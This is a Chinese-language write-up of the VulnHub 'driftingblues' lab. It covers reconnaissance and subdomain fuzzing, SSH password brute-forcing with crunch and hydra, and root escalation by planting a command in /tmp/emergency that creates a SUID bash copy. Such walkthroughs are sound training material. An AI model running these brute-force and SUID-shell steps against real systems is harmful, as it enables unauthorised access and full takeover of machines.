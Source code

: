 ```yaml
---
title: driftingblues VulnHub Walkthrough
date: 2021-10-12 16:24:52
categories:
- 渗透测试
tags:
- VulnHub
---
```


## driftingblues VulnHub Walkthrough

### 信息收集

#### 主机探测

```
arp-scan -l
```

![](https://i.loli.net/2021/10/12/OmNE8evaC2VQzZc.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.172
```

![](https://i.loli.net/2021/10/12/9LTWKF2Irw3bBn4.png)

只开放了22和80端口，只能先访问80端口看一下有没有什么信息

![](https://i.loli.net/2021/10/12/3aTXBh7Au61snxe.png)

好像没什么东西，扫了目录也没什么信息

![](https://i.loli.net/2021/10/12/89FHODkPsiIKq3A.png)

右键查看源码，看到了一串疑似base64编码的字符串，到在线网站上转换一下，这应该是一个路径

![](https://i.loli.net/2021/10/12/F4z37IMB6HRTbN8.png)

访问一下，这个很明显了，到在线的ook!解密网站解密一下

![](https://i.loli.net/2021/10/12/f3Y5qmlHkdy4UO2.png)

是一个提示，应该是要修改host文件

![](https://i.loli.net/2021/10/12/2A8K7SIUoW3ZYCJ.png)

在主页上可以看到一个域名，尝试添加到host再访问

![](https://i.loli.net/2021/10/12/yrY1VEOUn7ZNJuf.png)

![](https://i.loli.net/2021/10/12/m8XTnM4pqJRSxYI.png)

重新扫目录还是没有发现，那就试试爆破子域名

```
wfuzz -u driftingblues.box -w /home/colin/文档/fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.driftingblues.box" --hw 570
```

![](https://i.loli.net/2021/10/12/IhLMdEA75BqWY8J.png)

直接访问解析不了，需要再修改一下host

![](https://i.loli.net/2021/10/12/9HeMXPp4nxUc5T3.png)

访问一下

![](https://i.loli.net/2021/10/12/rQZJMdo6itON41X.png)

再扫一次目录，发现有robots.txt

![](https://i.loli.net/2021/10/12/h8NRS47k5FwcyQP.png)

访问一下，看到给了一些路径

![](https://i.loli.net/2021/10/12/hqH8zidLMpy2B4b.png)

查看ssh_cred.txt，给了提示

![](https://i.loli.net/2021/10/12/lO2CwcisZyFhX7Q.png)

### 漏洞利用

ssh登录的密码是`1mw4ckyyucky*`，目前还缺一位数字，一共十个可能的密码，先生成一下

```
crunch 13 13 -t 1mw4ckyyucky% > pass
```

看一下我们生成的密码集合

![](https://i.loli.net/2021/10/12/LKM18PeBjnQ3EmN.png)

接下来尝试爆破ssh登录密码，根据前面访问`test.driftingblues.box`的提示，用户名应该是`eric`

```
hydra -l eric -P pass ssh://192.168.62.172
```

![](https://i.loli.net/2021/10/12/DEn1wX8sbvx3KPy.png)

找到密码了，直接登录ssh

![](https://i.loli.net/2021/10/12/tR6dFViCTaYM3gk.png)

直接获取第一个flag

<img src="https://i.loli.net/2021/10/12/R6CWvfVqErO29Az.png" style="zoom:67%;" />

### 提权

```
uname -a
find / -perm -u=s -type f 2>/dev/null
getcap -r  / 2>/dev/null
```

看了一遍都没有什么发现，只能看一看有没有什么其他可以利用的地方

在备份目录下有个backup.sh，看一下内容

![](https://i.loli.net/2021/10/12/y8jaFm2eGTYUiXo.png)

有一个sudo执行的/tmp/emergency，但是tmp目录下是没有这个文件的，所以应该通过新建文件来提权

思路是这样，但还是不知道怎么操作，只能看看别人的walkthrough了

```
echo 'cp /bin/bash /tmp/getroot; chmod +s /tmp/getroot' > /tmp/emergency
#系统执行backup.up，以sudo执行emergency，会将/bin/bash复制到tmp，并赋予执行权限
chmod +x emergency
./getroot -p
```

![](https://i.loli.net/2021/10/12/jWGusDP8aTNwCgS.png)

![](https://i.loli.net/2021/10/12/lRnyG9txiQKuYW5.png)

现在可以获取第二个flag了

<img src="https://i.loli.net/2021/10/12/bWHGwDhZx1cTntf.png" style="zoom:67%;" />

> 参考：
>
> https://blog.csdn.net/weixin_45922278/article/details/115277255
